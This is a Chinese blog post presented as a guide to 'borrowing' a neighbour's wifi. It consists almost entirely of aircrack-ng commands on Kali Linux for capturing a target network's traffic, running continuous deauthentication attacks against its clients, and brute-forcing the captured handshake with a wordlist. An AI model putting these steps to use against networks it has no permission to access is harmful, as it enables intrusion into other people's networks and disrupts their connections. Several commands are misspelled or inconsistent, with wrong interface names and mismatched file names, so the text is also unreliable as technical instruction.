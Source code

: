 ```yaml
---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
```

这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>

2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>

3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>

4. 开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>

5. 查找无线网络
<pre class="prettyprint">
airodump-ng eth0
</pre>

6. 网络抓包
<pre class="prettyprint">
airodump-ng -w vutfile -c 1 —bssid MacAddress eth0
</pre>

7. ARP 发包
<pre class="prettyprint">
aireplay-ng -0 0 -a MacAddress eth0
</pre>

8. 暴力破解
<pre class="prettyprint">
aircrack-ng outfile1.cap -w /your_world_list_path
</pre>